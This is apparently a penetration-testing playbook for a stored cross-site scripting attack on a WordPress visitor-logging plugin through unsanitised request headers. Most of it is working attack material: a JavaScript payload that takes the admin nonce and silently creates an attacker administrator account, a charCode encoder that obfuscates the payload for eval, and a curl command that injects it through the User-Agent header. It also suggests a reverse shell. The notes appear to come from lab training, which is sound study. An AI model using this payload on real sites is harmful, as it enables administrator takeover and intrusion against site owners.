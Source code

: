 Stored XSS Against WP Playbook:

1. Identify user controlled input that is sent to a DB and later rendered. eg. In the `0.3` version of the Visitors WP plugin `X-Forwarded-For` & `User-Agent` headers sent by the client are stored without sanitisation, and later rendered in the browser in a particular admin console. Therefore when any admin visits that page from then on the code we embed in some script tags is executed.
2. Get Burp up and running, make sure intercept is off and the proxy is correctly configured. Look in the proxy section for requests made in the browser. Send one to the repeater (Ctrl+R), in the repeater edit the contents of the `User-Agent` header to include a reverse shell, alternatively you could do something really whacky:
	
Take this whacko payload:
```js
var ajaxRequest = new XMLHttpRequest();
var requestURL = "/wp-admin/user-new.php";
var nonceRegex = /ser" value="([^"]*?)"/g;
ajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1];
var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";
ajaxRequest = new XMLHttpRequest();
ajaxRequest.open("POST", requestURL, true);
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajaxRequest.send(params);
```
Pop it into jscompress.com to compress it, then feed it to the following function in the console to minify it:
```js
function encode_to_javascript(string) {
    var input = string
    var output = '';
    for(pos = 0; pos < input.length; pos++) {
        output += input.charCodeAt(pos);
        if(pos != (input.length - 1)) {
            output += ",";
        }
    }
    return output;
}
let encoded = encode_to_javascript('insert_minified_javascript')
console.log(encoded)
```
Finally pass the following to your vulnerable parameter:
```bash
curl -i http://offsecwp --user-agent "<script>eval(String.fromCharCode(<insert encoded payload here>))</script>" --proxy 127.0.0.1:8080
```
Make sure intercept is on in Burp, have a look at the payload, then send it on.
Visiting the Visitor Plugin dashboard will trigger the stored XSS payload.